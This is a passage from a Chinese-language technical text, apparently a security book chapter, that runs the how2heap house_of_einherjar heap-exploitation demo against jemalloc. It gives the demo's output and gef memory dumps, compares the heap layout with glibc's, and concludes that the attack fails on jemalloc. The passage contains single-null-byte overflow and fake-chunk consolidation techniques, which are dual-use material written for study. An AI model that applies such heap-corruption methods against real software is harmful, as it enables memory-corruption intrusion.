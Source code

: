 前面的分析已经提到过，house-of-einherjar 是一种利用 malloc 来返回一个附近地址的任意指针。它要求有一个单字节溢出漏洞，覆盖掉\verb+ next chunk+的 \verb+ size+字段并清除\verb+ PREV_IN_USE+标志。jemalloc没有采用边界标记的方法标记\verb+ free chunks+，因此本次攻击也是不成功的。
\begin{verbatim}
$ how2heap ./house_of_einherjar
We allocate 0x10 bytes for 'a': 0x7f6121abf000

Our fake chunk at 0x7ffe5fe58050 looks like:
prev_size: 0x80
size: 0x80
fwd: 0x7ffe5fe58050
bck: 0x7ffe5fe58050
fwd_nextsize: 0x7ffe5fe58050
bck_nextsize: 0x7ffe5fe58050

We allocate 0xf8 bytes for 'b': 0x7f6121ac0000
b.size: 0
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0x7f6121abfff0 - 0x7ffe5fe58050 = 0xffffff62c1c67fa0

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk
Our fake chunk size is now 0xffffff62c1c67fa0 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk: 0x7f6121abf010
\end{verbatim}

在分配\verb+ b+时下断点，查看堆布局：
\begin{verbatim}
gef$ x/50gx b-0x10
0x7ffff64a5ff0: 0x0000000000000000  0x0000000000000000
0x7ffff64a6000: 0xa5a5a5a5a5a5a5a5  0xa5a5a5a5a5a5a5a5
...           : ...                 ...
0x7ffff64a60f0: 0xa5a5a5a5a5a5a5a5  0xa5a5a5a5a5a5a5a5
0x7ffff64a6100: 0x0000000000000000  0x0000000000000000
\end{verbatim}

而使用glibc分配的内存如下所示：
\begin{verbatim}
gef$ x/50gx b-0x10
0x603020:   0x4141414141414141  0x0000000000000101 <- P flag
0x603030:   0x0000000000000000  0x0000000000000000 -
...     :   ...                 ...                | <- chunk b
0x603120:   0x0000000000000000  0x0000000000020ee1 -
0x603130:   0x0000000000000000  0x0000000000000000
\end{verbatim}

综上，本次攻击也是失败的。

\subsection{house\_of\_orange}

